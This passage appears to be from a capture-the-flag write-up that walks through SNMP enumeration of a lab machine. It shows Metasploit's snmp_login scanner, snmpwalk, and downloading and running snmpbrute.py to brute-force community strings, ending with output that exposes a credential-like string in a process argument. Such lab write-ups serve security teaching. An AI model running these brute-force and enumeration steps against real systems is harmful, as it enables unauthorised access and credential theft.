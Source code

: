 ```bash
use auxiliary/scanner/snmp/snmp_login
setg rhosts 10.10.11.193
run
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123051846.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123051925.png)

- You will only receive a limited amount of data with the `public` secret (community string).
- You can manually run `snmpwalk`:

```bash
snmpwalk -v1 -c public 10.10.11.193
//or//
snmpwalk -v2c -c public 10.10.11.193
```

- There is another secret that we need!
- For that we will use:

```bash
wget https://raw.githubusercontent.com/SECFORCE/SNMP-Brute/master/snmpbrute.py
chmod 700 snmpbrute.py
python snmpbrute.py -t 10.10.11.193 
```

- Output:

```bash
Identified Community strings
	0) 10.10.11.193    internal (v2c)(RO)
	1) 10.10.11.193    public (v1)(RO)
	2) 10.10.11.193    public (v2c)(RO)
	3) 10.10.11.193    public (v1)(RO)
	4) 10.10.11.193    public (v2c)(RO)
```

- `internal` was found!

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123052629.png)

- Note that in `python3.10` there is an error that occurs when you try to run `snmpwalk` through `snmpbrute.py`.
- So instead we will manually run it. Take note that it specifically specified version `v2c` in the output of `snmpbrute.py`.

```bash
snmpwalk -v2c -c internal 10.10.11.193
```

- Relevant Output:

```bash
HOST-RESOURCES-MIB::hrSWRunParameters.2653 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
```
